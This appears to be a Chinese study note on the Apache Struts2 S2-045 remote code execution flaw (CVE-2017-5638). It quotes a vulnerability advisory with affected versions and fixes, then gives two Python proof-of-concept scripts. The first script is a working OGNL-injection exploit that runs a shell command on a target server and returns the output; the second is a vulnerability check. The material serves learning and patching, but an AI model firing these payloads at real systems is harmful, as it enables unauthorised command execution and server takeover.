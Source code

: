 Struts-045学习
=============

关于Apache Struts2（S2-045）漏洞情况的通报
近日，国家信息安全漏洞库（CNNVD）收到关于Apache Struts2 （S2-045）远程代码执行漏洞（CNNVD-201703-152）的情况报送。由于该漏洞影响范围广，危害级别高，国家信息安全漏洞库（CNNVD）对此进行了跟踪分析，情况如下：

一、 漏洞简介
--------
Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web 应用的开源MVC框架，主要提供两个版本框架产品： Struts 1和Struts 2。  

ApacheStruts 2.3.5 – 2.3.31版本及2.5 – 2.5.10版本存在远程代码执行漏洞（CNNVD-201703-152 ，CVE-2017-5638）。该漏洞是由于上传功能的异常处理函数没有正确处理用户输入的错误信息。导致远程攻击者可通过发送恶意的数据包，利用该漏洞在受影响服务器上执行任意命令。    

二、 漏洞危害
--------
攻击者可通过发送恶意构造的HTTP数据包利用该漏洞，在受影响服务器上执行系统命令，进一步可完全控制该服务器，造成拒绝服务、数据泄露、网站造篡改等影响。由于该漏洞利用无需任何前置条件（如开启dmi ，debug等功能）以及启用任何插件，因此漏洞危害较为严重。

三、 修复措施
--------
目前，Apache官方已针对该漏洞发布安全公告。请受影响用户及时检查是否受该漏洞影响。

>自查方式
用户可查看web目录下/WEB-INF/lib/目录下的struts-core.x.x.jar 文件，如果这个版本在Struts2.3.5 到 Struts2.3.31 以及 Struts2.5 到 Struts2.5.10之间则存在漏洞。

>升级修复
受影响用户可升级版本至Apache Struts 2.3.32 或 Apache Struts 2.5.10.1以消除漏洞影响。

>临时缓解
如用户不方便升级，可采取如下临时解决方案：
l  删除commons-fileupload-x.x.x.jar文件（会造成上传功能不可用）。


四、PoC示例
--------

>requests库学习
* Requests 是用Python语言编写，基于 urllib，采用 Apache2 Licensed 开源协议的 HTTP 库。它比 urllib 更加方便，可以节约我们大量的工作，完全满足 HTTP 测试需求。Requests 的哲学是以 PEP 20 的习语为中心开发的，所以它比 urllib 更加 Pythoner。更重要的一点是它支持 Python3 哦！
* Requests 使用的是 urllib3，因此继承了它的所有特性。Requests 支持 HTTP 连接保持和连接池，支持使用 cookie 保持会话，支持文件上传，支持自动确定响应内容的编码，支持国际化的 URL 和 POST 数据自动编码。现代、国际化、人性化。

>sys库学习
* Python的系统模块
包括sys, os, glob, socket, threading, _thread, queue, time, timeit, subprocess, multiprocessing, signal, select, shutil, tempfile等。
大多数系统级接口集中在：sys和os两个模块。

>下面是测试PoC脚本1
```
/usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
 
def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()

     
poc()
```


>下面是测试PoC脚本1
```
import requests
import sys
 
def poc(url):

    payload = "%{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(102*102*102*99)).(#ros.flush())}"

    headers = {}

    headers["Content-Type"] = payload

    r = requests.get(url, headers=headers)

    if b"105059592" in r.content:

        return True
 

    return False



if __name__ == '__main__':

    if len(sys.argv) == 1:

        print ("py " + sys.argv[0] + " targetUrl")

        sys.exit()

    if poc(sys.argv[1])==True:

        print ("vulnerable")

    else:

        print ("not vulnerable")
```
